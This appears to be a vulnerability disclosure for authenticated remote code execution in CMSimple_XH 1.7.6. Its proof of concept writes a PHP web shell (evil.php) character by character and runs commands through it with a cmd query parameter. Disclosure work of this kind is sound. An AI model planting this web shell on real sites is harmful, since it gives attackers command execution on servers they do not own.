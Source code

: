 # RCE in cmsimple-xh 1.7.6
Similarly to https://github.com/advisories/GHSA-56jv-hmch-qm6c , it is possible to upload a PHP payload to execute commands on the host. It requires being **Authenticated**.

Version: CMSimple_XH 1.7.6

## Steps to reproduce:
1. Login as Admin
2. Move to `/?file=content`
3. Add the following code into **Content file**:
```php
file_put_contents('evil.php', '');
$fileHandle = fopen('evil.php', 'a');
fwrite($fileHandle, '<');
fwrite($fileHandle, '?');
fwrite($fileHandle, 'p');
fwrite($fileHandle, 'h');
fwrite($fileHandle, 'p');
fwrite($fileHandle, ' ');
fwrite($fileHandle, 'system');
fwrite($fileHandle, '(');
fwrite($fileHandle, '$');
fwrite($fileHandle, '_GET[');
fwrite($fileHandle, '"cmd"]');
fwrite($fileHandle, ');');
fwrite($fileHandle, '?');
fwrite($fileHandle, '>');
fclose($fileHandle);
```
4. Save and refresh
5. Move to `/evil.php?cmd=id`

## Screenshots:

![1](1.png)
![2](2.png)
![3](3.png)

